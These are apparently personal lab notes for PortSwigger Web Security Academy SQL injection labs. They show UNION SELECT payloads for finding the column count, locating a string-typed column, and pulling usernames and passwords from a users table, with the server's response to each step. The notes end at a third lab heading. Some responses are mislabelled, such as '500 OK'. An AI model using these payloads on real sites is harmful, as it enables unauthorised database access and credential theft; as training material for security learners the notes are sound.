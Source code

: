 
## [Lab: SQL injection UNION attack, finding a column containing text | Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

**Target:** identify a column that is compatible with string data (column has same datatype), using string provided in lab

union need columns to have same datatype

`web-security-academy.net/filter?category=` the vulnrable parameter with SQLI.

- C8luiA is the string to test with.

- `' /**/ --` ->  200 OK  AND `' #--` -> 500 Server Error.
  
  - DB is **Microsoft or PostgreSQL**. no need for **FROM** identify.

- `' UNION SELECT NULL, NULL, NULL --` query SELECT **3 Columns**.

- `' UNION SELECT 'C8luiA', NULL, NULL --` -> 500 Server Error
  
  - first colum datatype not string 

- `' UNION SELECT NULL, 'C8luiA', NULL --` -> 200 OK 
  
  - second column datatype is string **(Our Target)**

- `' UNION SELECT NULL, NULL, 'C8luiA' --` -> 500 OK 
  
  - thrid column datatype is not strind 

---

## [Lab: SQL injection UNION attack, retrieving data from other tables | Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

**Target:** log in as the `administrator` user.

`web-security-academy.net/filter?category=` the vulnrable parameter with SQLI.

DB contains, table called `users`, with columns called `username` and `password`.

- `' /**/ --` -> 200 OK AND `' #--` -> 500 Server Error.
  
  - DB is **Microsoft or PostgreSQL**. no need for **FROM** identify.

- `' UNION SELECT NULL, NULL --` -> 200 OK
  
  - query select **2 columns** 

- `' UNION SELECT username, password from users --`  -> 200 OK
  
  - return all users data include administrator **(our Habibi)**.

---

## [Lab: SQL injection UNION attack, retrieving multiple values in a single column | Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
